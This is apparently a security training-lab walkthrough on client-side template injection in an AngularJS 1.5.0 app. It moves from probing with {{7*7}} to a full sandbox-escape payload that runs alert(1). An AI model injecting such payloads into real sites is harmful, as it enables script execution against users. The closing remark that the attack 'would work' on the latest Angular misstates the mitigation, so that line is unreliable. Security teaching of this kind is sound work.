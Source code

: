 # KBID 111 - Client Side Template Injection

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

#### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.ejs` page in the source code, we can see that a variable `<%= CSTI %>` is used in the page

```html
<center><p style="font-size:2em;"><%= CSTI %></p></center>
```

#### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

We are going to use the same payload of the XSS lab

```html
">
<script>
  alert("XSS");
</script>
```

Unfortunately the alert does not trigger :(

PRINTSCREEN PLACEHOLDER

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

#### Step3

How do we get XSS?

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

!PRINTSCREEN PLACEHOLDER

Bingo!!

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

- break the sanitizer
- escape the sandbox
- forge a working payload

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

#### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

#### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```JavaScript
{{ c=''.sub.call;b=''.sub.bind;a=''.sub.apply; c.$apply=$apply;c.$eval=b;op=$root.$$phase; $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString; C=c.$apply(c);$root.$$phase=op;$root.$digest=od; B=C(b,c,b);$evalAsync(" astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "); m1=B($$asyncQueue.pop().expression,null,$root); m2=B(C,null,m1);[].push.apply=m2;a=''.sub; $eval('a(b.c)');[].push.apply=a; }}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

PRINTSCREEN PLACEHOLDER

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes
https://docs.angularjs.org/guide/security
